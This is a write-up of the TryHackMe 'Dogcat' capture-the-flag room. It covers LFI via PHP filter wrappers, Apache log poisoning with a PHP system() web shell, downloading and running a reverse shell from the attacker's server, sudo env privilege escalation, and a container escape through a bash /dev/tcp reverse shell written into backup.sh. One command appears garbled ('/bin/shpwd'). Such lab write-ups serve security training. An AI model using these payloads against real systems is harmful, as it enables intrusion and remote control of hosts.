# THM - Dogcat

## Setup

[Link to room](https://tryhackme.com/room/dogcat)

**Read the Room Description:**\
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

**Optional setup:**\
I like to save the target IP as a variable called TGT which can be used in commands and save having to type it out each time. Also makes copying commands from my notes a lot easier



## 1. Recon and enumeration

### 1.1 nmap

```bash
sudo nmap -sV -T4 -p- $TGT
```

Options explained: -sV runs version detection, -T4 is the timing template to use (0: slowest, 5: quickest), -p- scan all ports

**nmap results:**

<figure><figcaption></figcaption></figure>

Points of interest from nmap results:\
**-** Port 22 open (SSH)\
\- Port 80 open which will host our rooms web page using Apache 2.4.38

### 1.2 View Website

We can navigate to the website in browser using the target IP `http://<TGTIP>`



From here I generally browse the website as a user would do (alongside viewing page sources) to get an idea of the websites functionality and purpose before using enumeration tools.

In this case there is not much to be found through navigating or viewing the page source. Clicking either dog or cat shows an image but a point to note is in the URL where the '**view**' parameter is set to either dog or cat. As the room describes using LFI (Local File Inclusion) this parameter may be of use to us.

<figure><figcaption></figcaption></figure>

### 1.3 Web Enumeration

**Website Enumeration with gobuster**\
To see if there were any other useful pages I used gobuster to check for any directories as well as using `-x php` to check for php files as from the room description we know we are looking to exploit PHP.

```bash
gobuster dir -u http://$TGT -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php
```

<figure><figcaption></figcaption></figure>

**Points of interest from scan:**\
index.php - If we can view this it will show us how the web page we have already seen works\
flag.php - This room wants us to get the contents of these files\
dogs/cats directory

## 2. Exploitation

### 2.1 LFI

Trying various parameters to try and exploit LFI I ran into several obstacles:

1. The parameter must contain 'dog' or 'cat'
2. .php is added to the end of the parameter (e.g /?view=index will look for the file index.php)

Looking online for LFI methods I found [this cheatsheet from high on coffee](https://highon.coffee/blog/lfi-cheat-sheet/) which gives an example of using a PHP wrapper to base64 encode a file. The example is:

```html
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

Applying this to our request format trying to view index.php we get

**/?view=php://filter/read=convert.base64-encode/resource=./dog/../index**

Explanation: From the web enumeration we know that if we change to the dog directory (meeting the containing 'dog' in request requirement), we then need to go back up a directory to end up back at the start in order to view the index page. The .php extension for index.php is not included as we know the request will be appended with .php.



This returns us the contents of index.php encoded using base64 so I copied the encoded text into a file on my machine and decoded it using:

```bash
base64 -d indexbase64.txt
```

<figure><figcaption></figcaption></figure>

From viewing index.php we can identify another parameter that can be set in our requests. This is the **ext** value as seen in the line

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```

If we do not set the ext value it defaults to .php which explains the issues I encountered earlier.

Knowing we can read local files we can look to **read flag1** similar to how we read index.php

**/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag**

As before the returned base 64 needs to be decoded using `base64 -d` giving us our first flag


We can also use our knowledge of the ext parameter to view /etc/passwd

**/?view=./dog/../../../../../../../etc/passwd\&ext**

but this didn't turn out to be useful in my progression through the room.

### 2.3 PHP Log poisoning

Now that we know how to read files on the target system we can look to view access logs which will record requests we make to the web server. From our nmap scan we know we are dealing with an Apache server V 2.4.38. You may know the log file location of from previous experience but if not a google search can provide you with the results which is what I had to do and found the answer [here](https://phoenixnap.com/kb/apache-access-log).

**Viewing log file**\
Using LFI directory traversal and keeping the ext parameter blank\
**/?view=./dog/../../../../../../../var/log/apache2/access.log\&ext=**



**Using curl to poison the log**\
As all of our requests are captured in the log file we can look to exploit this by injecting our own PHP code into the log file via a request. [This resource from sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html) gives several ways to inject PHP code into pages. Choosing one we can make a request to the site using curl:

```bash
curl http://$TGT -H "User-Agent: <?php system(\$_GET['cmd']); ?>" 
```

**Note**: If a php error is produced here you may need to reset your machine as the PHP is now stored in log file. Once you have reset the machine input the correct curl command above making sure to use the new machine's IP.\
For me, I had to restart my machine because the amount of requests I made with gobuster enumeration made the logs hard to view in my browser.

If we now take a look at the log file again it now shows us a **warning** 'system(): Cannot execute a blank command in /var/log/apache2/access.log\*\*'\*\*

<figure><figcaption><p>PHP Warning</p></figcaption></figure>

**Note**: If you are struggling to read through the log file in browser viewing the page source can help neaten it up.

This warning actually shows us that our PHP log poisoning has worked, but we just haven't set our 'cmd' parameter yet. We can perform a quick test by setting cmd to `id`

**/?view=./dog/../../../../../../../var/log/apache2/access.log\&ext=\&cmd=id**

<figure><figcaption><p>cmd id results (viewing page source)</p></figcaption></figure>

### 2.3 Create a Reverse Shell

Set up listener on our machine for the shell to establish a connection with:

```bash
nc -nvlp 4444
```

**Create shell code**\
I used the well known **PHP shell** from pentestmonkey which can be found at: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) making sure to change the IP to match my workstation IP and the port number to that in the netcat listener I set up above.



**Get the shell onto the target**\
Host a python web server for target to download our reverse shell from. Ensure this is either in the same folder as the reverse shell or adjust the curl command ahead in order to reach the correct directory.

```bash
python3 -m http.server 8080 
```

In order for the target machine to save our shell locally we will use the target's curl command in the format:

```bash
curl http://10.14.23.1:8080/monkeyshell.php -o shell.php
```

This will download monkeyshell.php and using the option -o save it as shell.php in the directory the command has been run from.

Putting this curl command into our cmd parameter of our request we get the final result:

**http://10.10.150.242/?view=./dog/../../../../../../../var/log/apache2/access.log\&ext\&cmd=curl http://10.14.23.1:8080/monkeyshell.php -o shell.php**

Our python server lets us know when our target machine has downloaded our shell file:

<figure><figcaption></figcaption></figure>

**Execute the shell script**\
In order to get our shell.php to execute we remember back to using LFI to read index.php, so we use the following (remember by default .php will be added)\
**http://10.10.150.242/?view=./dog/../shell**

<figure><figcaption></figcaption></figure>

**SUCCESS**, we have our reverse shell on our machine

## 3. Post Compromise Enumeration

### 3.1 Find some flags

Looking back at the THM room we are in search of flags so I ran a find command to check for accessible flags. I used -iname to make the search **case insensitive** as sometimes creators use different cases through the filename.

```bash
find / -type f -iname "flag*" 2>/dev/null
```


This returns us two results which we can `cat` out and get our first two flags (if you didn't grab flag 1 earlier with LFI)



## 4. Privilege Escalation

### 4.1 Elevate to root

Checking for sudo rights using `sudo -l` shows us we can run /usr/bin/env as sudo without a password. Looking this up at [GTFO Bins](https://gtfobins.github.io/gtfobins/env/#sudo) we can use the command on this site to get a root shell\*\*.\*\*

```bash
sudo env /bin/shpwd
```

Running the find command from section 3.1 or going straight to /root directory we can find flag 3


### 4.2 Break out of the Docker Container

After much trial and searching through directories I came across a file in /opt/backups called backup.sh which appears to be a file that is called from outside the docker and is worth trying to leverage as a way to break out of the container.

Ensuring we have another listener set up on our machine

```bash
nc -nvlp 5555
```

We can insert our shell into backup.sh and wait for it to be called

```bash
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.14.23.1/5555 0>&1'" >> backup.sh
```

In my case in less than a minute my new shell was created and flag4 was waiting for collection in the current directory.

<figure><figcaption></figcaption></figure>

Thanks for reading my writeup of the Dogcat room.

## TLDR

* Scan machine and discover website
* Use LFI and base64 to get flag 1
* Use LFI to access log file
* Use curl to poison log allowing RCE
* Use RCE to upload reverse shell and execute it
* Find flag 2
* Elevate to root shell using sudo env from GTFO bins
* Find flag 3 in /root
* Break out of container by inserting a call to create a shell back to our machine in backup.sh
* Find flag 4
